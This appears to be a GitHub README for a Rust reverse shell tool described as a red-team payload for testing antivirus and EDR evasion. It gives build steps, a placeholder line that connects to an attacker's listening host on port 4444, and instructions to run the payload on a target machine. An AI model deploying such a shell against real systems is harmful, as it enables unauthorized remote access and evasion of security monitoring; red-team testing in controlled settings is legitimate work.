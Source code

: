 ## 🔁 Simple Reverse Shell Program in Rust

### Purpose

1. Serve as a test tool for red teaming scenarios
2. Test evasion of antivirus (AV) and endpoint detection & response (EDR) tools
3. Use as a payload for **StegLauncher** and **MissionEvasion**

---

### Development & Usage

#### Pre-conditions:

1. **Install `rustup` to set up the Rust development environment:**

   ```bash
   curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
   ```

   Add the following directory to your `PATH`:

   ```bash
   $HOME/.cargo/bin
   ```

2. **Clone this project:**

   ```bash
   git clone https://github.com/Amaris-Genie-Email-Gateway/ReverseShell
   cd ReverseShell
   ```

---

#### Usage:

1. **Edit the hardcoded IP address**:

   * Open:
     `src/bin/reverseshell_payload.rs`
   * Change the IP to your **listening host** and **port**:

   ```rust
   TcpStream::connect("<your_ip>:4444")
   ```

2. **Build the payload and listener**:

   ```bash
   cargo build --bin reverseshell_payload
   cargo build --bin reverseshell_listener
   ```

3. **Run the payload on the target machine**, and the listener on your local (attacker) machine.

4. **If the connection is successful**, you can run:

   ```bash
   whoami
   ```

   to verify that the reverse shell is active.

---

### Disclaimer

This program is **strictly intended for red teaming and educational use in controlled environments**.
**Any unauthorized use on systems without explicit permission is illegal and strictly forbidden.**
